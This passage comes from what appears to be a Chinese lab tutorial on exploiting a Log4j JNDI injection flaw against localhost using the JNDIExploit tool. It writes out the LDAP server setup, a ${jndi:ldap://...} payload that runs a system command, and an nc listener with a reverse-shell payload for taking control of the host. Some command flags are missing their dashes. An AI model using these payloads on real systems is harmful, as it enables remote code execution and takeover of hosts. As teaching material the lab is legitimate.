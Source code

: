 ![图片描述](https://doc.shiyanlou.com/courses/uid454817-20211214-1639489247883)

[JNDIexploit](https://github.com/feihongcs/JNDIExploit) 一款用于  JNDI 注入利用的工具，利用它我们可以快速搭建 LDAP 服务。

可以先使用 `-u` 参数查看支持的功能列表：

```bash
java jar JNDIExploit-1.2-SNAPSHOT.jar -u
```

![图片描述](https://doc.shiyanlou.com/courses/uid454817-20211214-1639489325485)

如上图所示，如果需要执行系统命令，查询的格式应该是：`ldap://<IP>:1389/Basic/Command/cmd`，其中 `cmd` 替换为我们想执行的系统命令即可。

使用如下命令启动 LDAP 服务：

```bash
java jar JNDIExploit1.2SNAPSHOT.jar i 127.0.0.1
```

![图片描述](https://doc.shiyanlou.com/courses/uid454817-20211214-1639489387324)

如上图所示，LDAP 服务默认运行在 1389 端口。

回到 IDEA，在 `userinput` 中输入以下 Payload:

```
${jndi:ldap://127.0.0.1:1389/Basic/Command/xcalc}
```

Payload 说明：

- 执行系统命令`xcalc`，意为打开系统计算器。

![图片描述](https://doc.shiyanlou.com/courses/uid454817-20211214-1639489463911)

我们点击 run，可以看到成功执行系统命令`xcalc`并打开了计算器：

![图片描述](https://doc.shiyanlou.com/courses/uid454817-20211214-1639489480796)

回到终端界面，可以看到 LDAP 请求的记录：

![图片描述](https://doc.shiyanlou.com/courses/uid454817-20211214-1639489497481)

## 漏洞利用方式（获取主机控制权限）

通过上一部分实验，我们已经可以执行系统命令，接下来反弹 shell 也就变成非常容易的事。

新打开一个终端，运行如下命令使用 `nc` 监听 1234 端口:

```bash
nc lnvp 1234
```

![图片描述](https://doc.shiyanlou.com/courses/uid454817-20211221-1640099276384)

修改 Payload 为：

```bash
${jndi:ldap://127.0.0.1:1389/Basic/ReverseShell/127.0.0.1/1234}
```

